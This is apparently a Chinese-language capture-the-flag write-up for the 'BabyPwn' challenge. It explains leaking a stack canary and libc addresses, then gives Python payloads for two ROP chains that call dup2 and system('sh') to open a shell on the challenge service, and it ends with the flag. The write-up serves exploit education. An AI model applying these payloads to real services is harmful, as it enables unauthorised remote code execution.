 # BabyPwn

	RELRO:    Partial RELRO
	Stack:    Canary found
	NX:       NX enabled
	PIE:      No PIE
	
這題和 [tutorial](https://github.com/briansp8210/CTF_writeup/tree/master/CSAW_2016/tutorial) 蠻像的，要先 leak 出 canary 以及 libc address，並在開 shell 之前先利用 `dup2` 將 file descripter 設好。

## exploit

題目使用的 input function 會固定接收 100bytes 的輸入，但 output function 則會用 `strlen(buf)` 來決定輸出長度。所以算好 offset，把 canary 的 null byte 蓋掉，就可以 leak  出他的值。

```c
ssize_t input_func(void *buf, size_t len)
{
  int v2;
  ssize_t result;
  int v4;

  v2 = *MK_FP(__GS__, 20);
  result = recv(fd, buf, len, 0);
  v4 = *MK_FP(__GS__, 20) ^ v2;
  return result;
}
```

```c
ssize_t output_func(const char *buf)
{
  int v1;
  size_t len;
  ssize_t result;
  int v4;
  
  v1 = *MK_FP(__GS__, 20);
  len = strlen(buf);
  result = send(fd, buf, len, 0);
  v4 = *MK_FP(__GS__, 20) ^ v1;
  return result;
}
```
  
接著就利用 stack overflow 來做 ROP，首先用 `output_func` 多 leak 出幾個 GOT 上的位址，在 [libcdb.com](http://libcdb.com/libc/92) 比較找到對應的 libc。  
再來也把存在 `.bss` 上的 `fd` 給讀出來，準備給 `dup2` 用。

```python
# 因為已經確定 libc 版本了，這裡就只有讀出一個來用
r.sendafter('Input Your Message : ',
            'A'*40 + p32(canary) + 'B'*12 +
            p32(write_output) + p32(pop_ebx_ret) + p32(send_got) +
            p32(write_output) + p32(menu) + p32(fd_addr)
           )
```

return 回選單 function 後，就可以做第二次 ROP，先用 `dup2` 把 `stdin` 和 `stdout` 設好，再 `system("sh")` 就可以順利拿 shell 了。

```python
r.sendafter('Input Your Message : ',
            'A'*40 + p32(canary) + 'B'*12 +
            p32(dup2) + p32(pop_edi_ebp_ret) + p32(fd) + p32(0) +
            p32(dup2) + p32(pop_edi_ebp_ret) + p32(fd) + p32(1) +
            p32(system_plt) + p32(0xdeadbeef) + p32(sh)
           )
```

`FLAG{Good_Job~!Y0u_@re_Very__G@@d!!!!!!^.^}`
